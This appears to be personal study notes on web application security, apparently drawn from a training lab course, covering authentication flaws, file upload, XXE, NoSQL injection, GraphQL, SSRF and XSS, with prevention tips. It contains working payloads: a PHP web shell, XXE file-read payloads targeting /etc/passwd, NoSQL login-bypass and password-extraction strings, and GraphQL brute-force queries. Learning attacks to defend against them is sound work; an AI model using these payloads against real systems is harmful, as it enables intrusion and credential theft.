






# SERVER SIDE

# Authentication vulnerabilities

Authentication is the process of verifying the identity of a user or client.

**Type of authentication**

- Something you know, such as a password or the answer to a security question. These are sometimes called "knowledge factors".
- Something you have, This is a physical object such as a mobile phone or security token. These are sometimes called "possession factors".
- Something you are or do. For example, your biometrics or patterns of behavior. These are sometimes called "inherence factors".

***Authentication is the process of verifying that a user is who they claim to be. Authorization involves verifying whether a user is allowed to do something.***

**vulnerabilities arises**

- The authentication mechanisms are weak because they fail to adequately protect against brute-force attacks.
- Logic flaws or poor coding in the implementation allow the authentication mechanisms to be bypassed entirely by an attacker. This is sometimes called "broken authentication".

## Vulnerability 

- Vulnerabilities in password-based login
    - Brute-force attacks
        - Brute-forcing usernames
        - Brute-forcing usernames
    - Status codes
    - Error messages
    - Response times 
- Vulnerabilities in multi-factor authentication
- Vulnerabilities in other authentication mechanisms

**preventing brute-force attacks**
- Locking the account that the remote user is trying to access if they make too many failed login attempts
    - Account locking

- Blocking the remote user's IP address if they make too many login attempts in quick succession

**User rate limiting** - Typically, the IP can only be unblocked in one of the following ways:

Automatically after a certain period of time has elapsed
Manually by an administrator
Manually by the user after successfully completing a CAPTCHA

### HTTP basic authentication

## Vulnerabilities in multi-factor authentication

- something you have

### Bypassing two-factor authentication

1. If the user is first prompted to enter a password, and then prompted to enter a verification code on a separate page, the user is effectively in a "logged in" state

#### Flawed two-factor verification logic

- using cookies
- brute force.

#### Vulnerabilities in other authentication mechanisms
- Keeping users logged in
- Resetting user passwords
    - Sending passwords by email
    - Resetting passwords using a URL
- Changing user passwords

# Business logic vulnerabilities

Business logic vulnerabilities are flaws in the design and implementation of an application that allow an attacker to elicit unintended behavior

## Examples of business logic vulnerabilities

- Excessive trust in client-side controls
- Failing to handle unconventional input
- Making flawed assumptions about user behavior
- Domain-specific flaws
- Providing an encryption oracle

# File upload vulnerabilities

File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

## exploit

`<?php echo file_get_contents('/path/to/target/file'); ?>` this will user to read arbatery files.

`<?php echo system($_GET['command']); ?>`              versitile web shell

## Exploiting flawed validation of file uploads
- Flawed file type validation
- Preventing file execution in user-accessible directories
- Insufficient blacklisting of dangerous file types
- Overriding the server configuration
- Obfuscating file extensions
    - exploit.php.jpg
    - exploit.php.
    - exploit%2Ephp 
    - exploit.asp;.jpg or exploit.asp%00.jpg
    - xC0 x2E, xC4 xAE or xC0 xAE may be translated to x2E
- Flawed validation of the file's contents
    JPEG files always begin with the bytes FF D8 FF.
- Exploiting file upload race conditions
- Race conditions in URL-based file uploads
- Uploading malicious client-side scripts
- Exploiting vulnerabilities in the parsing of uploaded files
- Uploading files using PUT
You can try sending OPTIONS requests to different endpoints to test for any that advertise support for the PUT method.

## preventation
- Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
- Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (../).
- Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
- Do not upload files to the server's permanent filesystem until they have been fully validated.
- As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.

# XML external entity (XXE) injection

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

- **Arises?**   XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

- **What is XML?** extensible markup language designed for storing and transporting data, uses a tree-like structure of tags and data, 

- **What are XML entities?** - XML entities are a way of representing an item of data within an XML document,

- **What is document type definition?** The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional DOCTYPE element at the start of the XML document.
    - internal DTD
    - external DTD

- **What are XML custom entities?** XML allows custom entities to be defined within the DTD.
    * <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>

- **What are XML external entities?** XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.
    * <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
    * <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>

## TYPE

- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

## Exploiting

- **Exploiting XXE to retrieve files**
- **Exploiting XXE to perform SSRF attacks**
- **Blind XXE vulnerabilities**
    - **premium using colobrator**
    - **premium using colobrator**
    - **Exploiting blind XXE to retrieve data via error messages**
    
    An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve

**code**

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

- 
    - **Exploiting blind XXE by repurposing a local DTD**

            <!DOCTYPE foo [
            <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
            <!ENTITY % custom_entity '
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            '>
            %local_dtd;
            ]>

    -  Locating an existing DTD file to repurpose

            <!DOCTYPE foo [
            <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
            %local_dtd;
            ]>

            <!DOCTYPE message [
            <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
            <!ENTITY % ISOamso '
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            '>
            %local_dtd;
            ]>

- Finding hidden attack surface for XXE injection
    - XInclude attacks
        
            <foo xmlns:xi="http://www.w3.org/2001/XInclude">
            <xi:include parse="text" href="file:///etc/passwd"/></foo>
    
    - XXE attacks via file upload
    - XXE attacks via modified content type

## How to find and test for XXE vulnerabilities

- Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.

# Information disclosure vulnerabilities

Information disclosure, also known as information leakage, is when a website unintentionally reveals sensitive information to its users.

- Data about other users, such as usernames or financial information
- Sensitive commercial or business data
- Technical details about the website and its infrastructure
    

hints:

- Revealing the names of hidden directories, their structure, and their contents via a robots.txt file or directory listing
- Providing access to source code files via temporary backups
- Explicitly mentioning database table or column names in error messages
- Unnecessarily exposing highly sensitive information, such as credit card details
- Hard-coding API keys, IP addresses, database credentials, and so on in the source code
- Hinting at the existence or absence of resources, usernames, and so on via subtle differences in application behavior

How this Vulnerability arises?

- Failure to remove internal content from public content
- Insecure configuration of the website and related technologies. 
- Flawed design and behavior of the application.

## How to find and exploit information disclosure vulnerabilities

- Testing for information disclosure vulnerabilities
    - FUZZING
    - USING BURP SCANNER
    - USING BURP ENGAGMENT TOOL
        - seach
        - find comments
        - discover contents
    -Engineering informative responses
- Common sources of information disclosure
    - Files for web crawlers - `/robots.txt` and `/sitemap.xml`
    - Directory listings
    - Developer comments
    - Error messages
    - Debugging data
    - User account pages
    - Backup files
    - Insecure configuration
    - Version control history

# NoSQL INjection 
* NoSQL injection may enable an attacker to:

- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.

**NoSQL databases**
They are designed to handle large volumes of unstructured or semi-structured data

**Types of NoSQL injection**
- Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload.
- Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

## NoSQL syntax injection
You can potentially detect NoSQL injection vulnerabilities by attempting to break the query syntax. 

*Detecting syntax injection in MongoDB*

    https://insecure-website.com/product/lookup?category=<fizzy_words>
    this.category == 'fizzy'                                            interept in the server

    Payload:
    '"`{;$Foo}$Foo \xYZ                  #for url it is url coded

    Determine which character is processed
    this.category == '''      #broken syntex
    this.category == '\''     #not broken syntex then conclude to injection attack

    Confirming conditional behavior

    ' && 0 && 'x and ' && 1 && 'x        (false & true)
    If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

    Overriding existing conditions
    '||1||'                   #payload
    https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

    this.category == 'fizzy'||'1'=='1'

    You could also add a null character after the category value. MongoDB may ignore all characters after a null character.
    https://insecure-website.com/product/lookup?category=fizzy'%00 #construct payload

## NoSQL operator injection

*Operstor in MongoDB*
- $where - Matches documents that satisfy a JavaScript expression.
- $ne - Matches all values that are not equal to a specified value.
- $in - Matches all of the values specified in an array.
- $regex - Selects documents where values match a specified regular expression.

*Submitting query operators*

    `{"username":"wiener"} becomes {"username":{"$ne":"invalid"}}` #for json input
    `username=wiener becomes username[$ne]=invalid`                #for url input

**if that not work then try this:**
- Convert the request method from GET to POST.
- Change the Content-Type header to application/json.
- Add JSON to the message body.
- Inject query operators in the JSON.

# API Testing

## API recon
- find out as much information about the API as possible
- The input data the API processes, including both compulsory and optional parameters.
- The types of requests the API accepts, including supported HTTP methods and media formats.
- Rate limits and authentication mechanisms.

 
## API documentation
- always start your recon by reviewing the documentation. 
- You can use Burp Scanner to crawl and audit OpenAPI documentation
- Postman or SoapUI
 
## Identifying and interacting with API endpoints
-  heavyweight extraction, use the JS Link Finder BApp
-  identified API endpoints, interact with them using Burp Repeater and Burp Intruder. This enables you to observe the API's behavior and discover additional attack surface

- methods 
    - GET - Retrieves data from a resource.
    - PATCH - Applies partial changes to a resource.
    - OPTIONS - Retrieves information on the types of request methods that can be used on a resource.

- Using Intruder to find hidden endpoints
 
## Finding hidden parameters
- Burp Intruder enables you to automatically discover hidden parameters
- The Param miner BApp enables you to automatically guess up to 65,536 param names per request
- The Content discovery tool enables you to discover content that isn't linked from visible content that you can browse to, including parameters

 
## Mass assignment vulnerabilities (AKA Auto-Binding)

 
## Preventing vulnerabilities in APIs

- Secure your documentation if you don't intend your API to be publicly accessible.
- Ensure your documentation is kept up to date so that legitimate testers have full visibility of the API's attack surface.
- Apply an allowlist of permitted HTTP methods.
- Validate that the content type is expected for each request or response.
- Use generic error messages to avoid giving away information that may be useful for an attacker.
- Use protective measures on all versions of your API, not just the current production version.

 
## Server-side parameter pollution
- Some systems contain internal APIs that aren't directly accessible from the internet.
- user and do
    - Override existing parameters.
    - Modify the application behavior.
    - Access unauthorized data.

 
## Testing for server-side parameter pollution in the query string
- To test for server-side parameter pollution in the query string, place query syntax characters like #, &, and = in your input and observe how the application responds. 

----
    GET /userSearch?name=peter&back=/home
    GET /users/search?name=peter&publicProfile=true

Turncate parameters

    GET /userSearch?name=peter%23foo&back=/home
    GET /users/search?name=peter#foo&publicProfile=true

INJECTING INVALID PARAMETER

    GET /userSearch?name=peter%26foo=xyz&back=/home
    GET /users/search?name=peter&foo=xyz&publicProfile=true

Injecting valid parameter

    GET /userSearch?name=peter%26email=foo&back=/home

    GET /users/search?name=peter&email=foo&publicProfile=true

Overriding the existing parameter

    GET /userSearch?name=peter%26name=carlos&back=/home

    GET /users/search?name=peter&name=carlos&publicProfile=true

## Testing for server-side parameter pollution in REST paths
- A RESTful API may place parameter names and values in the URL path, rather than the query string
 
## Testing for server-side parameter pollution in structured data formats
 
## Testing for server-side parameter pollution with automated tools
- Backslash Powered Scanner BApp to identify server-side injection vulnerabilities
 
## Preventing server-side parameter pollution
- use an allowlist to define characters that don't need encoding, and make sure all other user input is encoded before it's included in a server-side request.

 

# NoSQL Injection 

## Types of NoSQL injection
1. Syntax injection - similar like sql injection, like breaking sql syntex and injecting a payload.
2. Operator injection - This occurs when you can use NoSQL query operators to manipulate queries

## NoSQL syntax injection (1 of 7)
- Detact NoSQL injection vulnerabilities by attempting to break the query syntax
- input by submitting fuzz strings and special characters that trigger a database error 

fuzzing

    '"`{
    ;$Foo}
    $Foo \xYZ

    '%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00

### Determining which characters are processed

    this.category == '''

    this.category == '\''

*If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.*

### Confirming conditional behavior

- send two requests `' && 0 && 'x` (True) and `' && 1 && 'x` (False)

*If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.* 

### Overriding existing conditions

After identified that you can influence boolean conditions, `'||1||'` and  `lookup?category=fizzy'%00`

resultant - `this.category == 'fizzy'||'1'=='1'` 

## NoSQL operator injection
* $where - Matches documents that satisfy a JavaScript expression.
* $ne - Matches all values that are not equal to a specified value.
* $in - Matches all of the values specified in an array.
* $regex - Selects documents where values match a specified regular expression

-  you can insert query operators as nested objects 
    * in JSON - `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`
    * in UREL - `username=wiener` becomes `username[$ne]=invalid`

If this doesn't work, you can try the following

- Convert the request method from GET to POST.
- Change the Content-Type header to application/json.
- Add JSON to the message body.
- Inject query operators in the JSON.

`{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
`{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

## Exploiting syntax injection to extract data

### Exfiltrating data in MongoDB
As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data.

    admin' && this.password[0] == 'a' || 'a'=='b      #exfilter the password character by character.
    admin' && this.password.match(/\d/) || 'a'=='b    #match the digit in the string
    
### Identifying field names

    admin' && this.username!=' 
    admin' && this.foo!='

## Exploiting NoSQL operator injection to extract data
### Injecting operators in MongoDB

    {"username":"wiener","password":"peter"}  #jason body in post request
    {"username":"wiener","password":"peter", "$where":"0"}  #evaluate to False
    {"username":"wiener","password":"peter", "$where":"1"}  #evaluate to True

*If there is a difference between the responses, this may indicate that the JavaScript expression in the $where clause is being evaluated.*

    "$where":"Object.keys(this)[0].match('^.{0}a.*')"  #extracting fields name, This enables you to extract the field name character by character.
`{"username":"admin","password":{"$regex":"^.*"}}` - exfilter the data by using regex 
`{"username":"admin","password":{"$regex":"^a*"}}` - check the password begis with a
`"$where": "function(){if(this.unlockToken.match(/^0§a§/)) return 1; else 0;}"`

## Timing based injection
*Sometimes triggering a database error doesn't cause a difference in the application's response. be able to detect and exploit the vulnerability by using JavaScript injection to trigger a conditional time delay.*

1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. A timing based payload causes an intentional delay in the response when executed. For example, {"$where": "sleep(5000)"} causes an intentional delay of 5000 ms on successful injection.
3. Identify whether the response loads more slowly. This indicates a successful injection

payload example:

    admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
    admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'

## Preventing NoSQL injection

- Sanitize and validate user input, using an allowlist of accepted characters.
- Insert user input using parameterized queries instead of concatenating user input directly into the query.
- To prevent operator injection, apply an allowlist of accepted keys.

# Race Conditon 

## Limit overrun race conditions

Occure:
- Redeeming a gift card multiple times
- Rating a product multiple times
- Withdrawing or transferring cash in excess of your account balance
- Reusing a single CAPTCHA solution
- Bypassing an anti-brute-force rate limit

## Detecting and exploiting limit overrun race conditions with Burp Repeater

1. Identify a single-use or rate-limited endpoint that has some kind of security impact or other useful purpose.
2. Issue multiple requests to this endpoint in quick succession to see if you can overrun this limit.

## Detecting and exploiting limit overrun race conditions with Turbo Intruder
## Hidden multi-step sequences
## Methodology for identifying and exploiting race conditions

## Multi-endpoint race conditions

## Single-endpoint race conditions

## Session-based locking mechanisms

- Some frameworks attempt to prevent accidental data corruption by using some form of request locking. For example, PHP's native session handler module only processes one request per session at a time. 

## Partial construction race conditions
## Time-sensitive attacks
## Preventing race condition vulnerabilities
- Avoid mixing data from different storage places.
- Ensure sensitive endpoints make state changes atomic by using the datastore's concurrency features. For example, use a single database transaction to check the payment matches the cart value and confirm the order.
- As a defense-in-depth measure, take advantage of datastore integrity and consistency features like column uniqueness constraints.
- Don't attempt to use one data storage layer to secure another. For example, sessions aren't suitable for preventing limit overrun attacks on databases.
- Ensure your session handling framework keeps sessions internally consistent. Updating session variables individually instead of in a batch might be a tempting optimization, but it's extremely dangerous. This goes for ORMs too; by hiding away concepts like transactions, they're taking on full responsibility for them.
- In some architectures, it may be appropriate to avoid server-side state entirely. Instead, you could use encryption to push the state client-side, for example, using JWTs. Note that this has its own risks, as we've covered extensively in our topic on JWT attacks.

# GraphQL 
## Finding GraphQL endpoints

- Before you can test a GraphQL API, you first need to find its endpoint. As GraphQL APIs use the same endpoint for all requests, this is a valuable piece of information.  
- If you send query{__typename} to any GraphQL endpoint, it will include the string `{"data": {"__typename": "query"}}` somewhere in its response. This is known as a universal query

- Common Endpoints
    - /graphql
    - /api
    - /api/graphql
    - /graphql/api
    - /graphql/graphql

- If these common endpoints don't return a GraphQL response, you could also try appending /v1 to the path. 
- GraphQL endpoints to only accept POST requests with content-type of application/json but some accept GET requests or POST requests that use a content-type of x-www-form-urlencoded

## Exploiting unsanitized arguments
- If the API uses arguments to access objects directly, it may be vulnerable to access control vulnerabilities(IDOR)
## Discovering schema information
- The next step in testing the API is to piece together information about the underlying schema. 
- Introspection is a built-in GraphQL function that enables you to query a server for information about the schema. 
- Introspection helps you to understand how you can interact with a GraphQL API.  `__schema`

**Probing for introspection**
`{`
    `"query": "{__schema{queryType{name}}}"`
`}`

**Running a full introspection query**
    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
**Note: query doesn't run, try removing the onOperation, onFragment, and onField directives from the query structure.**

## Bypassing GraphQL introspection defenses
if the developer has only excluded `__schema{`, then the below introspection query would not be excluded.

    #Introspection query with newline
    {
        "query": "query{__schema
        {queryType{name}}}"
    }

- Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.
URL encoded paraeter
     
    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
## Bypassing rate limiting using aliases
Ordinarily, GraphQL objects can't contain multiple properties with the same name. Aliases enable you to bypass this restriction by explicitly naming the properties you want the API to return. You can use aliases to return multiple instances of the same type of object in one request

    example alies

    mutaion {bruteforce0:login(input:{password: "123456", username: "carlos"}) {
            token
            success
    }}
## GraphQL CSRF
- Cross-site request forgery (CSRF) vulnerabilities enable an attacker to induce users to perform actions that they do not intend to perform. 
## Preventing GraphQL attacks
- disable introspection on it. 
- you should review the API's schema to make sure that it does not expose unintended fields to the public
- Make sure that your API's schema does not expose any private user fields
## Preventing GraphQL brute-force attacks
- Limit the query depth of your API's queries.
- Configure operation limits. Operation limits enable you to configure the maximum number of unique fields, aliases, and root fields that your API can accept.
- Configure the maximum amount of bytes a query can contain.
- Consider implementing cost analysis on your API.
## Preventing CSRF over GraphQL
- Your API only accepts queries over JSON-encoded POST.
- The API validates that content provided matches the supplied content type.
- The API has a secure CSRF token mechanism.

# Server side request forgery AKA (SSRF)

## What is SSRF?
- Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

## What is the impact of SSRF attacks?
- often result in unauthorized actions or access to data within the organization.
- This can be in the vulnerable application, or on other back-end systems that the application can communicate with.
- the SSRF vulnerability might allow an attacker to perform arbitrary command execution

## Common SSRF attacks
- exploit trust relationships to escalate an attack from the vulnerable application and perform unauthorized actions.

## Circumventing common SSRF defenses
## Blind SSRF vulnerabilities
## Finding hidden attack surface for SSRF vulnerabilities

# CLIENT SIDE

# Cross-site scripting

## Type

- Reflected XSS, where the malicious script comes from the current HTTP request.
- Stored XSS, where the malicious script comes from the website's database.
- DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.

## find and test for reflected XSS vulnerabilities

- Test every entry point.
- Submit random alphanumeric values.
- Determine the reflection context.
- Test a candidate payload.
- Test alternative payloads.
- Test the attack in a browser.

## XXS used for 

- Impersonate or masquerade as the victim user.
- Carry out any action that the user is able to perform.
- Read any data that the user is able to access.
- Capture the user's login credentials.
- Perform virtual defacement of the web site.
- Inject trojan functionality into the web site.

## Sinks (DOM vulnerability)

document.write()    
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

### j querys for DOM vuln

add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
`$.parseHTML()`

1. search for all the domain
2. serch for all the technologies running from the website (censys) 
    - subdomainfinder
    - assetfinder
3. combine the list of subdomains from the diffrent tools, and chck it is alive or not with (httpx)
4. check to domain takeover  from subzy
5. check all the alive url with 200, 301, 302 with katana